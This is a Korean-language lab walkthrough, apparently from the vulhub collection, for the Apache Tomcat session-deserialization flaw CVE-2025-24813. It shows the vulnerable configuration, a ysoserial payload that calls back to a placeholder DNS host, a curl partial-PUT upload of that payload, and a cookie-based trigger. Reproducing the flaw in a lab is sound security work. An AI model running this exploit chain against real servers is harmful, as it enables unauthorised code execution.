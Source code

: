 # Tomcat 세션 역직렬화 원격 코드 실행 (CVE-2025-24813)

[中文版本(Chinese version)](README.zh-cn.md) [English version](README.eng.md)

Apache Tomcat은 Java Servlet, JSP, EL, WebSocket 기술을 구현한 세계적으로 널리 사용되는 오픈소스 웹 애플리케이션 서버입니다.

Apache Tomcat에서는 11.0.0-M1에서 11.0.2까지, 10.1.0-M1에서 10.1.34까지, 9.0.0.M1에서 9.0.98까지 역직렬화 취약점이 발견되었습니다. 이는 Tomcat이 쓰기 가능한 DefaultServlet(읽기 전용=false)과 파일 기반 세션 지속성을 모두 갖춘 상태로 구성될 때 발생합니다. 이 조합을 통해 공격자는 서버에 임의의 파일을 작성하고 JSESSIONID 쿠키를 조작하여 이러한 파일의 역직렬화를 트리거하여 궁극적으로 원격 코드 실행으로 이어질 수 있습니다.

- <https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq>
- <https://github.com/charis3306/CVE-2025-24813>
- <https://forum.butian.net/article/674>

## 환경 구성

다음 명령을 실행하여 자바를 설치합니다.


다음 명령을 실행하여 취약한 Tomcat 9.0.97 서버를 시작합니다:

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2025-24813
docker compose up -d
```

컨테이너 실행 확인

```
docker compose ps
```
![image](https://github.com/user-attachments/assets/cf232c15-9e84-4ae6-8ef5-7c5be5b3b6f2)


서버가 시작된 후, 'http://your-ip:8080'을 방문하여 Tomcat 예제 페이지에 접속할 수 있습니다.

## 취약점 구현 방법

취약점은 Tomcat의 두 가지 주요 잘못된 구성으로 인해 발생합니다. 첫째, DefaultServlet은 readonly=false로 구성되어 파일 업로드가 가능합니다:

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

둘째, Tomcat은 파일 기반 세션 지속성을 사용하도록 구성되어 있습니다.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

두 구성 모두 동일한 기본 저장 경로를 사용합니다: '$CATALINA_BASE/work/Catalina/localhost/ROOT'.

부분 PUT 요청을 보낼 때 Tomcat은 파일 경로의 경로 구분자(/)를 마침표(.)로 변환하고 파일을 세션 저장 디렉토리에 임시로 저장합니다. 특정 요청을 작성하여 이 디렉토리에 악성 직렬화된 개체를 작성할 수 있습니다.

이 취약점을 악용하려면 먼저 Content-Range 헤더와 함께 부분적인 PUT 요청을 보내 임시 디렉토리에 '.deserialize.session'이라는 파일을 작성하세요(저는 테스트 목적으로 Postman과 ysoserial을 사용합니다):

```
java -jar ysoserial-all.jar URLDNS "http://your-dns-server.example" > payload.ser
```
우선 위 명령어를 이용해 ysoserial을 이용해 페이로드를 생성합니다. 

![image](https://github.com/user-attachments/assets/95c8a75b-c1a6-4150-be2a-0af884f8ad6c)

다음으로 아래 명령어를 입력해 악성 세션 파일을 업로드합니다.

```
FILESIZE=$(stat -c %s payload.ser)
curl -X PUT "http://localhost:8080/deserialize/session" \
  -H "Content-Range: bytes 0-$(($FILESIZE-1))/$FILESIZE" \
  --data-binary @payload.ser
```
이미 생성되어 있다면 409 conflict 에러가 발생할 것이고 그렇지 않다면 201 Created가 뜰 것입니다.
이후 GET 요청으로 역직렬화를 트리거합니다.

```
curl -v "http://localhost:8080/" -H "Cookie: JSESSIONID=.deserialize"

```
![image](https://github.com/user-attachments/assets/f0cd870c-4e15-4bab-905a-353045bf2b5b)

Tcpdump 명령어를 통해 DNS(53)을 모니터링하면 다음과 같은 결과를 통해 your-dns-server.example이 성공적으로 나타남을 확인할 수 있습니다.

![image](https://github.com/user-attachments/assets/218b03e9-1280-4ddb-b58e-995a62ad06b9)

실제 공격 시나리오에서는 "콘텐츠 역직렬화"가 웹 애플리케이션에 의해 역직렬화될 때 임의의 코드를 실행할 수 있는 악의적인 직렬화된 Java 객체로 대체될 것입니다.
